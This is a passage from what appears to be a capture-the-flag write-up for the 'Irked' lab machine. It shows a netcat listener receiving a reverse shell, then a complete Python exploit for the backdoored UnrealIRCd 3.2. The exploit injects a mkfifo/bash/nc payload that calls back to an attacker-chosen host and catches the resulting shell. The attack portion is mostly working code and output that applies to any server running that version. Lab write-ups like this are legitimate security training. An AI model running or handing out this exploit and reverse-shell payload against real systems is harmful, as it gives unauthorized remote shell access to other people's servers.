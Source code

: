 

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.117.
    Ncat: Connection from 10.10.10.117:40718.
    bash: cannot set terminal process group (634): Inappropriate ioctl for device
    bash: no job control in this shell
    ircd@irked:~/Unreal3.2$ id
    id
    uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)



### Script It

This was a simple enough exploit, and I wanted a python implementation,
so I wrote one. I had particular fun using `subprocess` to start my `nc`
listener and catch the shell callback. This script will be on my gitlab
page, [ctfscripts](https://gitlab.com/0xdf/ctfscripts) as well (though
not under Irked, as it's not specific to this machine, but any running
this backdoored version of Unreal).



      1 #!/usr/bin/env python3
      2 
      3 import socket
      4 import subprocess
      5 import sys
      6 
      7 if len(sys.argv) != 5:
      8     print(f"Usage: {sys.argv[0]} [target_ip] [target_port] [callback ip] [callback port]")
      9     sys.exit()
     10 
     11 rhost, rport, lhost, lport = sys.argv[1:]
     12 
     13 print(f"[*] Connecting to {rhost}:{rport}")
     14 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     15 try:
     16     s.connect((rhost, int(rport)))
     17 except:
     18     print(f"[-] Failed to connect to {rhost}:{rport}")
     19     sys.exit(1)
     20 s.recv(100)
     21 
     22 print("[*] Sending payload")
     23 s.send(f"AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc {lhost} {lport} >/tmp/f\n".encode())
     24 s.close()
     25 print("[+] Payload sent. Closing socket.")
     26 
     27 print("[*] Opening listener. Callback should come within a minute")
     28 try:
     29     ncsh = subprocess.Popen(f"nc -nl {lhost} {lport}", shell=True)
     30     ncsh.poll()
     31     ncsh.wait()
     32 except:
     33     print("\n[!] Exiting shell")
